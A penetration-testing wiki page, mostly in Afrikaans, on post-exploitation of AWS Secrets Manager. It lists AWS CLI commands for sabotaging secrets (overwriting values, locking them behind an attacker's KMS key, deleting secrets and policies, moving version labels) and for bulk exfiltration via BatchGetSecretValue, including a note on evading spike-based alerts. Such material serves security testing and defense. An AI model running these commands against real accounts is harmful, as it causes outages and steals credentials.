 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Lees Secrets

Die **secrets self is sensitiewe inligting**, [sien die privesc bladsy](../aws-privilege-escalation/aws-secrets-manager-privesc.md) om te leer hoe om dit te lees.

### DoS: Verander Secret Value

Deur die waarde van die secret te verander kan jy **DoS al die stelsels wat van daardie waarde afhanklik is.**

> [!WARNING]
> Let daarop dat vorige waardes ook gestoor word, so dit is maklik om net terug te gaan na die vorige waarde.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

As die aanvaller die secretsmanager:UpdateSecret permission het, kan hulle die geheim konfigureer om 'n KMS key te gebruik wat deur die aanvaller besit word. Daardie key word aanvanklik so opgestel dat enigiemand daartoe toegang kan kry en dit kan gebruik, so dit is moontlik om die geheim met die nuwe key by te werk. As die key nie toeganklik was nie, sou die geheim nie bygewerk kon word nie.

Nadat die key vir die geheim verander is, wysig die aanvaller die konfigurasie van hulle key sodat net hulle daartoe toegang het. Op hierdie manier sal toekomstige weergawes van die geheim met die nuwe key versleuteld word, en aangesien daar geen toegang daartoe is nie, sal die vermoë om die geheim op te vra verlore wees.

Dit is belangrik om op te let dat hierdie ontoeganklikheid slegs in latere weergawes sal voorkom, nadat die inhoud van die geheim verander het, aangesien die huidige weergawe nog steeds met die oorspronklike KMS key versleuteld is.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Die minimum aantal dae om 'n secret te verwyder, is 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Dit is moontlik om 'n geheim te herstel, wat die herstel van geheime wat vir verwydering geskeduleer is toelaat, aangesien die minimum verwyderingsperiode vir geheime 7 dae en die maksimum 30 dae is. Saam met die secretsmanager:GetSecretValue-toestemming maak dit moontlik om hul inhoud te verkry.

Om 'n geheim te herstel wat in die proses is om verwyder te word, kan jy die volgende opdrag gebruik:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Hierdie aksie laat toe om die resource policy wat beheer wie toegang tot 'n secret het, te verwyder. Dit kan lei tot 'n DoS as die resource policy gekonfigureer was om toegang aan 'n spesifieke groep gebruikers toe te staan.

Om die resource policy te verwyder:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Die state van 'n secret word gebruik om weergawes van 'n secret te bestuur. AWSCURRENT merk die aktiewe weergawe wat toepassings gebruik, AWSPREVIOUS hou die vorige weergawe sodat jy kan terugrol indien nodig, en AWSPENDING word in die rotasieproses gebruik om 'n nuwe weergawe voor te berei en te valideer voordat dit die huidige een gemaak word.

Toepassings lees altyd die weergawe met AWSCURRENT. As iemand daardie etiket na die verkeerde weergawe skuif, sal die apps ongeldige inlogbewyse gebruik en kan misluk.

AWSPREVIOUS word nie outomaties gebruik nie. As AWSCURRENT egter verwyder of verkeerd heraangewys word, kan dit lyk asof alles steeds met die vorige weergawe loop.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}

### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Misbruik die Secrets Manager BatchGetSecretValue API om tot 20 geheime in 'n enkele versoek te kry. Dit kan die aantal API-oproepe drasties verminder vergeleke met die herhaalde gebruik van GetSecretValue vir elke geheim. As filters gebruik word (tags/name), is secretsmanager:ListSecrets-permissie ook nodig. CloudTrail registreer steeds een GetSecretValue-gebeurtenis per geheim wat in die batch onttrek is.

Vereiste permissies
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue vir elke teikengeheim
- secretsmanager:ListSecrets (nodig as --filters gebruik word)
- kms:Decrypt op die CMKs wat deur die geheime gebruik word (as jy nie aws/secretsmanager gebruik nie)

> [!WARNING]
> Let daarop dat die permissie `secretsmanager:BatchGetSecretValue` op sigself nie voldoende is om geheime te onttrek nie; jy het ook `secretsmanager:GetSecretValue` nodig vir elke geheim wat jy wil onttrek.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate deur filters (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Hantering van gedeeltelike mislukkings
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impact
- Vinnige “smash-and-grab” van baie secrets met minder API-oproepe, wat moontlik waarskuwings wat op pieke van GetSecretValue ingestel is, kan omseil.
- CloudTrail logs sluit steeds een GetSecretValue-gebeurtenis per secret in wat deur die batch opgehaal is.
